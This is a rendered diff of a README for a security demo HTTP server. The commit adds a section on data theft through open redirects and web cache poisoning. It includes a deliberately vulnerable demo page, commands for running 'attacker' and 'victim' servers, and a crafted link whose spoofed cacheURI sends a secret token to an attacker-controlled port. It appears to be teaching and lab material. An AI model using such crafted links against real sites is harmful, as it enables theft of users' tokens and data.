

Before and after one commit to aayla-secura/mixnmatchttp, a Markdown page: README.md, the part around the change printed below. Shown: that part at 83% size. GitHub-like rendering; pictures changed too: demos/poc_evil_proxy_token.png (added); blank space fills up the shorter version.

Commit message:
Added the Evil Proxy use case

````diff
--- a/README.md
+++ b/README.md
@@ -214,7 +214,7 @@ The "victim" (`evil.html`) and "attacker" (`getData.html`) must be loaded in dif
 Start the server on any interface, e.g.:
 
 ```bash
-python3 simple.py -S
+python3 simple.py
 ```
 
 Visit `getData.html` in one browser:
@@ -229,11 +229,57 @@ then input the target URL in the input box, e.g.:
 https://<IP>:58080/secret/secret.html
 ```
 
-Copy the generated victim URL. Click on the link "Click here to wait for the stolen data". Open the copied link in another browser.
+Copy the generated victim URL. Click on the link "Click here to wait for the
+stolen data". Open the copied link in another browser.
 Refresh the cached page to see the stolen secret data.
 
 Note: The cached page should refresh itself every 30s.
 
 ## Stealing information via web cache poisoning or open redirects
 
-TO DO (uses `/goto`)
+Often times websites will redirect users or submit user data to external
+domains without validating them, even if the target could be controlled by an
+attcker. Usually this happens if the application exposes internal data in a way
+it can be tampered with by a malicious user. Two common examples are:
+  * Open redirect: A vulnerable page may redirect the user based on a URL
+    parameter, which is normally set by another page on the app; e.g. `/admin`
+    send an unauthenticated user to `/login?returnURL=%2fadmin` and `/login`
+    trusts the `redirectURL` parameter. A successful login may also append secret
+    authentication tokens to the URL it redirects to as is often done in OpenID
+    and OAuth implementations.
+  * Web cache poisoning: A web application is hidden behind a caching proxy and
+    dynamically updates all links on it to point to the domain name in the
+    `X-Forwarded-Host` header, which is normally set by the proxy and not
+    checked. The proxy may erroneously serve cached content with a malicious
+    attacker-supplied `X-Forwarded-Host` to other victim users.
+
+`demos/evil_proxy/vuln.html` is a simple example of a vulnerable page which
+takes the path of a caching endpoint (e.g. `/cache`) from a URL parameter
+without validating it. It then asks the caching endpoint for a new random
+token, which should be kept secret, and submits to it sensitive data available
+only to the user viewing the page.
+
+#### Running the server
+
+The "attacker" and the vulnerable application should be on different origins:
+
+Vulnerable web app:
+
+```bash
+python3 simple.py -p 58080
+```
+
+Attacker:
+
+```bash
+python3 simple.py -O -c -p 58081
+```
+
+The "attacker" sends the "victim" the following link with a spoofed `cacheURI`:
+
+```
+http://localhost:58080/demos/evil_proxy/vuln.html?cacheURI=http%3a%2f%2f127.0.0.1:58081%2fgoto%2f%2fcache
+```
+
+![](demos/poc_evil_proxy_token.png)
+
````
Also changed, not shown: other parts of README.md (+8 -7 lines), demos/poc_csrf.gif, demos/poc_evil_proxy_token.gif (added), 5 other files.
